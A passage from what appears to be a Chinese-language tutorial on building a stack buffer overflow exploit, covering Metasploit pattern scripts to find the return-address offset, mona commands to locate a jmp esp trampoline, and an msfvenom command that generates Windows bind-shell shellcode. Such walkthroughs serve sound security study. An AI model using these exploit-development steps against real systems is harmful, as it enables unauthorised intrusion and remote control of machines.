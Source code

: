 也可以用msf脚本生成：

```bash
# 查询脚本位置
locate pattern_create
# 进入目录后，执行脚本生成模式串
pattern_create.rb -l 300
# 查询偏移
pattern_offset.rb -q 41326941
```

![from_shellcode_to_buffer_overflow_practical_experience_15](from_shellcode_to_buffer_overflow_practical_experience_15.jpg)

#### 3.4.3 利用

现在就可寻找跳板地址覆盖掉返回地址了。

##### 3.4.3.1 寻找跳板地址

可以暴力搜索内存，这里仅提供一些简便方法：

```cmd
!mona jmp -r esp
```

在mona同目录下找jmp.txt，里面有结果，有时候可能找不多。用下面一种方法：

```cmd
!mona find -s '\xff\xe4' -m
```

然后结果在find.txt里，随便找一个做跳板地址就行。

这个跳板地址放在模式偏移246的位置。

##### 3.4.3.2 构造shellcode

有了跳板，接下来就是shellcode，下面演示一个反弹shell功能的shellcode。

需要用到kali，或带有msf的机器。

命令：

```bash
# -p表示加载模块，-f c表示格式化为c代码，-b为坏字符
msfvenom -p windows/shell_bind_tcp LPORT=5555 -f c -b '\x00\x0a\x0d'
```
